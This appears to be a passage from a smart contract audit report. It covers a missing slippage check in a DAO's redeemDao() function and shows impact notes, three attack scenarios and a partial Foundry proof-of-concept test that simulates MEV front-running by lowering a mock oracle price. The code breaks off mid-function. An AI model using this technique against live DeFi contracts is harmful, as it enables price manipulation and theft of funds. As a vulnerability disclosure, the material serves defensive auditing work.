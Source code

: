 ### Operational Impact:
- **Governance Risk**: DAO operations become vulnerable to market timing and manipulation
- **Decision Making**: DAO must factor in additional risks when planning redemption operations
- **Emergency Response**: Limited ability to execute emergency redemptions with predictable outcomes

### PoC


This Proof-of-Concept (PoC) demonstrates how a DAO’s redemption function can be exploited due to the **lack of slippage protection**, exposing it to **MEV front-running attacks** and **price manipulation during governance delays**.

The test suite explores three critical scenarios:

1. **MEV Front-Running Attack**
   A malicious actor (e.g., MEV bot) manipulates oracle pricing just before the DAO executes a large redemption, causing the DAO to receive fewer assets than expected. The attacker profits by reverting the price post-redemption.

2. **Price Movement During Multi-Sig Delay**
   DAO redemptions delayed by governance (e.g., multi-sig approval) become vulnerable to unfavorable market changes. Without slippage limits, the DAO is forced to execute at the worse price, resulting in losses.

3. **Comparison with Regular User Redemption**
   While regular users benefit from slippage protection (e.g., via `minOut` parameters), the DAO’s `redeemDao()` call lacks such checks, exposing it to significant losses even under small price deviations.

```solidity
    
    function testMEVFrontRunningAttack() public {
        uint256 daoRedemptionAmount = 50000e18; // 50k ETH0
        uint256 initialStETHPrice = 1e18;
        
        console.log("=== MEV Front-Running Attack Scenario ===");
        console.log("Initial stETH price:", initialStETHPrice);
        console.log("DAO redemption amount:", daoRedemptionAmount);
        
        // Calculate expected return at current price
        uint256 expectedStETH = daoRedemptionAmount; // 1:1 ratio initially
        console.log("Expected stETH (no slippage):", expectedStETH);
        
        // MEV Bot front-runs: manipulate price downward
        vm.startPrank(mevBot);
        // Simulate price manipulation (e.g., large stETH sell)
        oracle.setPrice(address(stETH), 0.995e18); // Drop to 0.995
        vm.stopPrank();
        
        console.log("Price after MEV manipulation:", oracle.getPrice(address(stETH)));
        
        // DAO transaction executes at manipulated price
        vm.startPrank(daoRedeemer);
        uint256 actualStETHReceived = daoCollateral.redeemDao(
            address(stETH),
            daoRedemptionAmount
        );
        vm.stopPrank();
        
        console.log("Actual stETH received:", actualStETHReceived);
        
        // Calculate loss
        uint256 loss = expectedStETH - actualStETHReceived;
        uint256 lossPercentage = (loss * 100) / expectedStETH;
        
```
